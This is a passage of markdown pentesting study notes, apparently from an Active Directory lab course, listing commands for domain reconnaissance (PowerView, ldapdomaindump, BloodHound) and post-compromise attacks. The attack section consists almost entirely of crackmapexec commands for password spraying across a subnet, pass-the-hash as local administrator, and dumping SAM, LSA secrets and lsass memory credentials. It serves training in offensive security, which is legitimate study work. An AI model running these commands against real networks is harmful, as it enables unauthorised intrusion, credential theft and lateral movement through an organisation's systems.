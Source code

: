   ```ps

  Get-NetComputer -FullData | select OperatingSystem

  Get-NetGroup -GroupName *admin*
  #view group names having 'admins'

  Invoke-ShareFinder

  Get-NetGPO
  #view all group policies

  Get-NetGPO | select displayname, whenchanged
  ```

* ldapdomaindump:

  ```shell
  sudo ldapdomaindump ldaps://dc.ip -u 'MARVEL\fcastle' -p Password1
  #it is automatically used in the IPv6 relay attack
  ```
  
* Bloodhound: Recon tool for Active Directory environments.

  ```shell
  sudo neo4j console
  #localhost:7687 - default creds: neo4j:neo4j -> changed to neo4j1

  sudo bloodhound

  sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
  #run ingestor - this wasnt working for me so I installed it from the github repo and used:
  python3 Bloodhound.py/bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
  ```

  * This zip file can be imported in BloodHound. We can use Pre-Built Analytics Queries to plan further.

## Attacking Active Directory: Post-Compromise Attacks

* Pass the Hash:

  ```shell
  crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
  #sweep entire network
  #attempts to gain access via pass the password
  #can also spray passwords

  crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth
  #attempts to pass the hash and authenticate as LOCAL ADMIN, it can be useful if the hash cannot be cracked, but with this it is possible to dump secrets

  crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --sam
  #attempts to dump SAM files

  crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --shares
  #enumerate shares on the machines
  
  crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --lsa
  #dump the lsa (secrets for users who have already loggen in once before), but it is not guaranteed that the cracked password is still valid
  #cracked passwords can be used for password spraying
  
  crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth -M lsassy
  #dump secrets in memory

  cmedb
  ```